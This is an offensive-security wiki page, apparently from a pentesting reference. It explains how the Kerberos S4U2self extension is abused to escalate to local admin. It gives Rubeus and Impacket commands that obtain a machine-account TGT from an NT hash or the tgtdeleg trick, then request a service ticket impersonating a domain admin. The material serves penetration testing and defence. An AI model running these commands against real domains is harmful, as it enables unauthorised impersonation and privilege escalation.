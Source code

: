 # S4U2self abuse

## Theory

Kerberos delegations allow services to access other services on behalf of domain users.

The "Kerberos" authentication protocol features delegation capabilities explained [here](delegations/). Kerberos delegations can be abused by attackers to obtain access to valuable assets and sometimes even escalate to domain admin privileges. Regarding [constrained delegations](delegations/constrained.md) and [rbcd](delegations/rbcd.md), those types of delegation rely on **Kerberos extensions called S4U2Self and S4U2Proxy**.

**Service for User to Self (S4U2self)** allows a service to obtain a Service Ticket, on behalf of a user (called "principal"), to itself. This extension can be used by any account that has at least one SPN. Depending on the service and principal configurations, the resulting Service Ticket may or may not be forwardable but either way, the ticket can be used for authentication.

Last but not least, S4U2self can be used to produce a Service Ticket to oneself on behalf of another domain user, even if that user is "sensitive for delegation" or member of the Protected Users group. Consequently, this allows attackers to do some privilege escalation.

## Practice

In order to obtain local admin rights on the target machine, the attackers needs to conduct two major steps.

### Obtain a TGT

Obtaining a usable TGT for the machine account, either by knowing one of the machine account's Kerberos keys (RC4, AES128, AES256) or by using [the tgtdeleg trick](http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/) locally from the machine is the first step to conduct the privilege escalation.&#x20;

The "tgtdeleg" trick can be conducted with [Rubeus](https://github.com/GhostPack/Rubeus) (C#) from the machine as follows.

```powershell
.\Rubeus.exe tgtdeleg /nowrap
```

Alternatively, if the machine account credentials are known, the TGT can be obtained as follows.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s [getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) script can be used for the purpose.

```bash
getTGT.py -dc-ip "domaincontroller" -hashes :"NThash" "domain"/"machine$"
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose. Howerver, this step is optional if Rubeus is to be used later on for the S4U2self. In this case, with the appropriate arguments, Rubeus will request a TGT automatically.

```powershell
.\Rubeus.exe asktgt /nowrap /domain:"domain" /user:"computer$" /rc4:"NThash"
```
{% endtab %}
{% endtabs %}

### Obtain a Service Ticket

The TGT can then be used along with S4U2self to obtain a Service Ticket impersonating another domain user on the machine.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s getST.py (Python) script can be used for the purpose.&#x20;

```bash
export KRB5CCNAME="machine$.ccache"
getST.py -self -impersonate 'DomainAdmin' -spn 'host/machine.domain.local' -k -no-pass -dc-ip 'domaincontroller' 'domain.local'/'machine$'
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose.

```powershell
.\Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /ticket:"base64ticket"
```

Rubeus can also be used to obtain a TGT automatically instead of supplying the `/ticket` argument.

```powershell
.\Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /domain:"domain" /user:"computer$" /rc4:"NThash"
```
{% endtab %}
{% endtabs %}

Once a Service Ticket is received, it can be used with [pass-the-ticket](ptt.md)/[pass-the-cache](ptc.md) to obtain access to oneself as the "DomainAdmin" (the user can be changed in the request. Attackers should select a domain user which has local admin rights on the machine).

## Resources

{% embed url="https://exploit.ph/revisiting-delegate-2-thyself.html" %}

{% embed url="https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation" %}
